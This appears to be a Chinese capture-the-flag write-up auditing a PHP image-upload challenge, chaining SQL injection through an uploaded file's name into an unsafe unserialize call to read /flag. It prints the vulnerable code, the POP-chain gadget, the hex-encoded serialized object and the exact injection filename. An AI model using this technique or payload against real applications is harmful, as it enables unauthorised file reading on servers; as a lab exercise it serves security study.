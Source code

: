 ![](<./img/Pasted image 20230301002851.png>)

![](<./img/Pasted image 20230301003051.png>)

```php
public function view_files($path){
	if ($this->ifview == False){
		return False;
		//The function is not yet perfect, it is not open yet.
	}
	$content = file_get_contents($path);
	echo $content;
}
```

`helper.php`中存在`file_get_contents`，但是需要设置`ifview`为`true`，于是推测有可利用的反序列化漏洞

# 控制反序列化结果

```php
public function Get_All_Images(){
	$sql = "SELECT * FROM images";
	$result = mysqli_query($this->con, $sql);
	if ($result->num_rows > 0){
		while($row = $result->fetch_assoc()){
			if($row["attr"]){
				$attr_temp = str_replace('\0\0\0', chr(0).'*'.chr(0), $row["attr"]);
				$attr = unserialize($attr_temp);
			}
			echo "<p>id=".$row["id"]." filename=".$row["filename"]." path=".$row["path"]."</p>";
		}
	}else{
		echo "<p>You have not uploaded an image yet.</p>";
	}
	mysqli_close($this->con);
}
```

`shell.php`中对查询结果的`attr`列进行了反序列化

```php
public function insert_array($data)
{	
	$con = ...;
	$sql_fields = array();
	$sql_val = array();
	foreach($data as $key=>$value){
		$key_temp = str_replace(chr(0).'*'.chr(0), '\0\0\0', $key);
		$value_temp = str_replace(chr(0).'*'.chr(0), '\0\0\0', $value);
		$sql_fields[] = "`".$key_temp."`";
		$sql_val[] = "'".$value_temp."'";
	}
	$sql = "INSERT INTO images (".(implode(",",$sql_fields)).") VALUES(".(implode(",",$sql_val)).")";
	mysqli_query($con, $sql);
	// ...
}
```

`helper.php`中`helper`类的`insert_array`方法存在对数据库的写入，方式是简单的字符串拼接

`insert_array`由`save`方法调用，而`save`又被`upload`调用

```php
public function upload($input="file")
{
	$fileinfo = $this->getfile($input);
	$array = array();
	$array["title"] = $fileinfo['title'];
	$array["filename"] = $fileinfo['filename'];
	$array["ext"] = $fileinfo['ext'];
	$array["path"] = $fileinfo['path'];
	$img_ext = getimagesize($_FILES[$input]["tmp_name"]);
	$my_ext = array("width"=>$img_ext[0],"height"=>$img_ext[1]);
	$array["attr"] = serialize($my_ext);
	$id = $this->save($array);
}
```

可以看到`array["attr"]`为`my_ext`的序列化结果，而`my_ext`完全由图像的宽高决定

于是尝试对其它`array`的元素下手，利用上面发现的字符串拼接查询实现SQL注入对`attr`列任意写入

`array`的其它元素由`fileinfo`复制过来，而`fileinfo`由`getfile`方法获得

```php
public function getfile($input) => $this->check($_FILES[$input]);
public function check($info)
{
	$basename = substr(md5(time().uniqid()),9,16);
	$filename = $info["name"];
	$ext = substr(strrchr($filename, '.'), 1);
	$cate_exts = array("jpg","gif","png","jpeg");
	if(!in_array($ext,$cate_exts)){
		die("<p>Please upload the correct image file!!!</p>");
	}
	$title = str_replace(".".$ext,'',$filename);
	return array('title'=>$title,'filename'=>$basename.".".$ext,'ext'=>$ext,'path'=>$this->folder.$basename.".".$ext);
}
```

`'filename'=>$basename`，`basename`是随机生成，不可控

`'ext'=>$ext`，`ext`为上传文件后缀名，又有白名单检测，不可控

`'path'=>$this->folder.$basename`，保存目录名拼上随机生成文件名，不可控

`'title'=>$title`，`title`为上传文件名去掉后缀，可控

于是可以通过改变上传文件的文件名来控制写入`attr`列的内容

# POP链构造

```php
function __destruct(){
	# Read some config html
	$this->view_files($this->config);
}
```

`helper`直接存在一个`__destruct`魔术方法，设置`config`为`/flag`即可

```php
<?php

class helper {
    protected $ifview = true;
    protected $config = "/flag";
}
print bin2hex(serialize(new helper()));
```

得到

```
4f3a363a2268656c706572223a323a7b733a393a22002a00696676696577223b623a313b733a393a22002a00636f6e666967223b733a353a222f666c6167223b7d
```

文件名

```
1','1','1','1',0x4f3a363a2268656c706572223a323a7b733a393a22002a00696676696577223b623a313b733a393a22002a00636f6e666967223b733a353a222f666c6167223b7d),('1.jpg
```

![](<./img/Pasted image 20230301021418.png>)

```
/show.php
```

![](<./img/Pasted image 20230301021802.png>)

#Web #PHP #代码审计 #serialization #SQL注入